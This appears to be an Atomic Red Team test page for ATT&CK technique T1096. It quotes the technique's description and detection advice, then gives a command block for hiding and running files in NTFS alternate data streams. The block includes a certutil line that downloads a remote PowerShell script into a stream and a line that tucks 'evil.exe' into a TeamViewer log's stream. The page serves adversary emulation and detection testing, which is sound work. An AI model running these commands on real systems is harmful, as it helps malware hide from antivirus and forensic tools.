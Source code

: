 # T1096 - NTFS File Attributes
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1096)
<blockquote>Every New Technology File System (NTFS) formatted partition contains a Master File Table (MFT) that maintains a record for every file/directory on the partition. (Citation: SpectorOps Host-Based Jul 2017) Within MFT entries are file attributes, (Citation: Microsoft NTFS File Attributes Aug 2010) such as Extended Attributes (EA) and Data [known as Alternative Data Streams (ADSs) when more than one Data attribute is present], that can be used to store arbitrary data (and even complete files). (Citation: SpectorOps Host-Based Jul 2017) (Citation: Microsoft File Streams) (Citation: MalwareBytes ADS July 2015) (Citation: Microsoft ADS Mar 2014)

Adversaries may store malicious data or binaries in file attribute metadata instead of directly in files. This may be done to evade some defenses, such as static indicator scanning tools and anti-virus. (Citation: Journey into IR ZeroAccess NTFS EA) (Citation: MalwareBytes ADS July 2015)

Detection: Forensic techniques exist to identify information stored in NTFS EA. (Citation: Journey into IR ZeroAccess NTFS EA) Monitor calls to the ZwSetEaFile and ZwQueryEaFile Windows API functions, used to interact with EA, and consider regularly scanning for the presence of modified information. (Citation: SpectorOps Host-Based Jul 2017)

The Streams tool of Sysinternals can be used to uncover files with ADSs. The <code>dir /r</code> command can also be used to display ADSs. (Citation: Symantec ADS May 2009) Many PowerShell commands (such as Get-Item, Set-Item, Remove-Item, and Get-ChildItem) can also accept a <code>-stream</code> parameter to interact with ADSs. (Citation: MalwareBytes ADS July 2015) (Citation: Microsoft ADS Mar 2014)

Monitor for operations (execution, copies, etc.) with file names that contain colons. This syntax (ex: <code>file.ext:ads[.ext]</code>) is commonly associated with ADSs. (Citation: Microsoft ADS Mar 2014)

Platforms: Windows

Data Sources: File monitoring, Kernel drivers, API monitoring

Defense Bypassed: Signature-based detection, Anti-virus, Host forensic analysis

System Requirements: NTFS partitioned hard drive

Contributors: Red Canary</blockquote>

## Atomic Tests

- [Atomic Test #1 - Alternate Data Streams (ADS)](#atomic-test-1---alternate-data-streams-ads)


<br/>

## Atomic Test #1 - Alternate Data Streams (ADS)
Execute from Alternate Streams

[Reference - 1](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

[Reference - 2](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| path | Path of ADS file | path | c:\ADS\|

#### Run it with `command_prompt`!
```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 ${path}\procexp.cab ${path}\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump ${path}\procexp.exe > ${path}\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
makecab ${path}\autoruns.exe ${path}\cabtest.txt:autoruns.cab
print /D:${path}\file.txt:autoruns.exe ${path}\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg ${path}\file.txt:evilreg.reg
regedit /E ${path}\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat ${path}\file.txt:file.bat
esentutl.exe /y ${path}\autoruns.exe /d ${path}\file.txt:autoruns.exe /o
```
<br/>
